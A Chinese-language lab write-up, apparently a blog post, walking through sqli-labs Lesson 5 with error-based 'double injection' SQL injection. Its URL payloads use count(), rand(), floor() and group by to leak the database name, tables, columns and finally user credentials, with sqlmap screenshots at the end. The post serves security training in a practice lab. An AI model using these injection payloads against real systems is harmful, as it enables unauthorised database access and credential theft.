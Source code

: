 ```yaml
---
title: sqli-labs-lession-5 GET单引号双注入
date: 2018-09-21 17:09:45
tags:
categories: sql注入
---
```


# sqli-labs lession 5 GET单引号双注入 #
---

## 登录界面 ##

![1](https://i.imgur.com/o5P4i5s.png)


## 手注 ##
输入单引号测试下

`http://10.60.250.181/sqlilabs/Less-5/?id=1%27`

![2](https://i.imgur.com/C2OndYK.png)

返回的错误信息和Lesson-1一样。

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

尝试将右侧注释掉

`http://10.60.250.181/sqlilabs/Less-5/?id=1%27%23`

![3](https://i.imgur.com/u9vm04H.png)

没有返回信息,但是显示的是“You are in”,猜测这次可能正确执行SQL语句就显示“You are in”,错误就报错。

查看源码验证...

![4](https://i.imgur.com/pz8TbRh.png)

果然如此。

有没有一种方法能在错误种把我要获取的信息显示出来呢？就是双注入了。


### 双注入 ###

过本关需要了解双注入。

双注入需要count()、rand()、floor()这三个函数以及group by联合使用。

count():查询数量

rand()：产生0~1间的随机数 

floor()：向下取整

group by：按指定分类

具体例子：

`select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;`

要让上述的报错实现数据库至少要3条数据。

具体原因查看这篇分析

[
Mysql报错注入原理分析(count()、rand()、group by)](http://wooyun.jozxing.cc/static/drops/tips-14312.html)

### 字段数 ###

![5](https://i.imgur.com/p0yH37f.png)

![6](https://i.imgur.com/iWvqxd6.png)

### 双注入报错 ###

接下来的语句想要尝试多次。

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select database()))x from information_schema.tables group by x%23`

![7](https://i.imgur.com/VdHTjv2.png)

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select table_name from information_schema.tables where table_schema = 'security' limit 0,1))x from information_schema.tables group by x%23`

![8](https://i.imgur.com/vHIUWBM.png)

蓝色标注部分修改成要查询的就行。

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select column_name from information_schema.columns where table_name = 'users' limit 0,1))x from information_schema.tables group by x%23`

![9](https://i.imgur.com/SueF3no.png)

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1))x from information_schema.tables group by x%23`

![10](https://i.imgur.com/QftJYlR.png)

## SQLMAP ##

![11](https://i.imgur.com/PU5HoC2.png)

![12](https://i.imgur.com/DJpLKuu.png)

![13](https://i.imgur.com/6HBzjsu.png)